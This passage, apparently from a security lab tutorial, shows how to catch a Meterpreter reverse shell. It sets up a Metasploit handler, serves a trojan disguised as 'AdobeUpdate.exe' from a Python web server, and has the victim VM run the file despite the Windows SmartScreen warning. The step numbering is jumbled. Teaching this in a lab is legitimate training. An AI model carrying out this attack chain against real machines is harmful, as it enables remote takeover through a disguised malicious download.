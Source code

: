 6.    Verify that the output file is about 73802 bytes in size. If not, you may need to check that you entered the command correctly and run it again.
10.   Run an `msf` handler to listen for the meterpreter reverse connection which will be incoming
      when our malicious `AdobeUpdate.exe` payload file is executed.

      11.   On Kali, open a new terminal window and enter `msfconsole`.
      11.   Enter `use exploit/multi/handler`.

            Once you’ve switched to this exploit module, type `show info`.
            Note that this module “is a stub that provides all of the features of
            the Metasploit payload system to exploits that have been launched
            outside of the framework.” A stub adds additional functionality to
            other exploits.
      12.   Enter `set PAYLOAD windows/meterpreter/reverse_tcp`.
      13.   Enter `set LHOST virbr1`.
      15.   Enter `exploit -j`.

            <div class='alert alert-info'>
            The <code>-j</code> option jobifies the exploit, or runs it as a job in the background. You can see a list of jobs running in the background by using the command jobs.
            </div>

            <div class='alert alert-info'>
            Because <code>ExitOnSession</code> is set to <code>True</code> (the default for <code>exploit/multi/handler</code>; verify with <code>show advanced</code> from msfconsole), your handler will die after it gets one connection.
            </div>

      The handler is now listening.

7.    Now, we need to set up a way to deliver the payload to the victim.
      Set up a web server to host your malicious file.

      8.  Change directories to `/tmp` by entering `cd /tmp` in a kali terminal.
      8.  Check that the payload you generated earlier is in this directory: run `ls`
      9.  Now, from that directory, run the following command to use an http
          webserver built into `python` to serve content from the current directory (`/tmp`)
          on an arbitrary port - `8888`:

              python3 -m http.server 8888

## Play the victim

16.  Now, switch to playing the role of the victim. On your Windows VM, using
     Chrome, navigate to `http://192.168.56.101:8888`. Click `AdobeUpdate.exe` to
     download it. Click it to execute it. On the "Windows protected your PC"
     security dialog that appears, click "More info" and then "Run anyway."

     {% include lab-image.html image='adobe-update-execute-more-info.png' %}

     {% include lab-image.html image='adobe-update-execute-run-anyway.png' %}

## Play the attacker again

17.   On your Kali VM, you should see in your msfconsole that “Command shell session `X` opened,”
      where X is the number of the new session. Congratulations!
